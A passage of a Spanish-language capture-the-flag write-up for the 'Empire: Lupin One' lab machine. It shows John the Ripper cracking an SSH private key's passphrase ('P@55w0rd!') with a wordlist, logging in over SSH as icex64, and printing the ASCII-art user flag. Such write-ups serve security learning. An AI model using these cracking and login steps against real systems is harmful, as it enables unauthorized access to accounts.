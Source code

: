 Y lo intenté crackear otra vez con `john` y esta vez si hubo suerte.
```console
$ john -w=./fasttrack.txt hash.id_rsa 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@55w0rd!        (id_rsa)     
1g 0:00:00:01 DONE (2024-09-26 12:17) 0.5434g/s 34.78p/s 34.78c/s 34.78C/s Winter2015..password2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

La credencial de la clave privada es `P@55w0rd!`

Y ahora si que podemos iniciar sesión.
```console
$ ssh icex64@192.168.154.132 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Linux LupinOne 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64
########################################
Welcome to Empire: Lupin One
########################################
Last login: Thu Oct  7 05:41:43 2021 from 192.168.26.4
icex64@LupinOne:~$ id
uid=1001(icex64) gid=1001(icex64) groups=1001(icex64)
```

Y leer la flag de usuario, muy bonita por cierto.
```console
icex64@LupinOne:~$ cat user.txt 
    ...,    ,...    ..,.   .,,  *&@@@@@@@@@@&/.    ,,,.   .,..    ...,    ...,  
    ,,,.    .,,,    *&@@%%%%%%%%%%%%%%%%%%%%%%%%%%%&@,.   ..,,    ,,,,    ,,,.  
..,.    ,..,  (@&#%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%&%,.    ..,,    ,...    ..
    .... .@&%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@  ....    ....    ,...  
    .,#@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@  .,..    ,.,.    ...,  
.,,,&%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@#@.,    .,.,    .,..    .,
...@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%&@####@*.    ..,,    ....    ,.
   @%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@@%#######@% .,.,    .,.,    .,.,  
..,,@@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@@@@@@@@%#######@@,    ..,.    ,..,    ..
.,,, @@@@@@@@&%%%%%%%%%%%%%&@@@@@@@@@@@@@@@@@@@%%%#####@@,    .,,,    ,,.,    .,
    ..@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%###@@ .,..    ...,    ....  
...,  .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%#&@.    ...,    ...,    ..
....   #@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%%%@.    ....    ....    ..
    .,.,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&%%%%%%%#@*.,.,    .,.,    ..@@@@
..,.    .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%#@@    ..,.    ,..*@&&@@.
.,,.    ,.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%%@@    .,,.    .@&&&@( ,,
    ,.,.  .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&%%%%%%%@@%%&@@@, ,,,@&@@@.,,,  
....    ...#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&&%%%%&%,@%%%%%%%#@@@@@%..    ..
...,    ...,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&&&&@,*,,@%%%%%%@@@&@%%@..    ..
    ,,.,    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@/,***,*,@%%%@@&@@@%%###@ ,,.,  
    .,. @@&&&@@,,/@@@@@@@@@@@@@@@@@@@@@@@@#,,,,,,,,,*,,@%%%@&&@@%%%%%##&* ,...  
.,,, @@&@@&@&@@%,*,*,*,*,***,*,*,***,*,*,*,*,*,*,**,&@%%&@@@&@%%%%%%%%@/.,    .,
  /@@&&&&&&&&&&@@*,,,,,,,,,,,,,,,,,,,,,,*,,,**,%@&%%%%@&&&@%%%%%%%%%@(    ,..,  
 @&@&@&@&@&@&@&&@@@@@(,*,*,,**,*,*,,,*#&@@&%%%%%%%%&@@@@@%%%%%%%%@&..,    .,.,  
@@@&&&&&&&&&&&&&&&&&@@@&&&@@@@&&@@&&@&&&%&%%%%%%%@&&&@&%%%%%%&@,..    ...,    ..
 @&&&@&@&@&@&@&@&@&@&@&@&@&@&&@@@&&&&&&&%&%%%%&@&&@@%%%#&@%..,    .,.,    .,.,  
  @@@@&&&&&&&&&&&&&&&&&&&&&&@&&&&&&&&&&&%%&%@&@&@&@@%..   ....    ....    ,..,  
.,,, *@@&&&@&@&@&@&@&@&&&&&&&&&&&&&&&&&%&&@@&&@....    ,.,    .,,,    ,,..    .,
    ,,,,    .,%@@@@@@@@@@@@@@@@%,  ...,@@&&@(,,    ,,,.   .,,,    ,,.,    .,,.  
    .,.,    .,,,    .,,.   ..,.    ,*@@&&@ ,,,,    ,.,.   .,.,    .,.,    .,.,  
...,    ....    ....    ,..    ,..@@@&@#,..    ....    ,..    ...,    ....    ..
    ....    ....    ...    ....@.,%&@..    ....    ...    ....    ....    ....  
    ...,    ....    ....   .*/,...&.,,,    ....    ....   .,..    ...,    ...,  
```